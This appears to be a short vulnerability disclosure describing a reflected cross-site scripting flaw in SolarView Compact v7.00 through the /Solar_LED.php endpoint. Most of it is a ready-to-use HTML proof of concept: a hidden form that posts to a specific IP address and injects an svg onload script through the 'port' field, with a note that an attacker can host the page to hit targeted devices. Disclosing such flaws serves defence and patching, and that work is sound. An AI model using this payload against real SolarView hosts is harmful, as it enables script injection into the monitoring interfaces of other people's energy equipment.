 # Description:
Cross-site Scripting (XSS) - Reflected in SolarView Compact v7.00 Via crafted POST Request via /Solar_LED.php endpoint 

## POC:

When someone opens this html file, or if attacker add it into his website, XSS will execute at the targeted vulnerable SolarView Compact host

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://124.85.103.237/Solar_LED.php" method="POST">
      <input type="hidden" name="led&#95;id&#91;&#93;" value="&#58;11" />
      <input type="hidden" name="led&#95;digits&#91;&#93;" value="1" />
      <input type="hidden" name="led&#95;id&#91;&#93;" value="&#58;11" />
      <input type="hidden" name="led&#95;digits&#91;&#93;" value="1" />
      <input type="hidden" name="led&#95;id&#91;&#93;" value="&#58;11" />
      <input type="hidden" name="led&#95;digits&#91;&#93;" value="1" />
      <input type="hidden" name="led&#95;id&#91;&#93;" value="&#58;11" />
      <input type="hidden" name="led&#95;digits&#91;&#93;" value="1" />
      <input type="hidden" name="port" value="batman&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS_By_Strik3r&apos;&#41;&gt;" />
      <input type="hidden" name="btnSave" value="&#149;Û&#145;&#182;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

![image](https://user-images.githubusercontent.com/94288990/198833923-86f3cd74-e7f6-45b2-bb82-41ac4d476e09.png)
